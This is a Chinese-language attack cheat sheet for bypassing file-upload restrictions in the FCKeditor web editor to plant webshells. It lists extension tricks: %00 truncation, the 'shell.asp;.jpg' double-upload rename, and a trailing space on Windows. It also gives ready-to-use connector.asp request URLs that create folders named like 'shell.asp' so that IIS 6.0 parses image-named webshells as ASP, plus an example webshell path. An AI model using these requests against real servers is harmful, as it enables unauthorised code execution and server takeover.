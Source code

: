 上传限制
========

上传限制的突破方式很多，主要还是抓包改扩展名，%00截断，添加文件头等

文件名限制
==========

二次上传绕过
------------

文件名' . ' 修改为' \_ '

FCK在上传了诸如shell.asp;.jpg的文件后，会自动将文件名改为shell\_asp;.jpg。可以继续上传同名文件，文件名会变为shell.asp;(1).jpg

提交shell.php+空格绕过
----------------------

提交shell.php+空格绕过

空格只支持windows系统，linux系统是不支持的，可提交shell.php+空格来绕过文件名限制。

iis6.0突破文件夹限制
====================

    Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
    FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
    FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp

文件解析限制
============

通过Fckeditor编辑器在文件上传页面中，创建诸如1.asp文件夹，然后再到该文件夹下上传一个图片的webshell文件，获取其shell。

    http://www.0-sec.org/images/upload/201806/image/1.asp/1.jpg
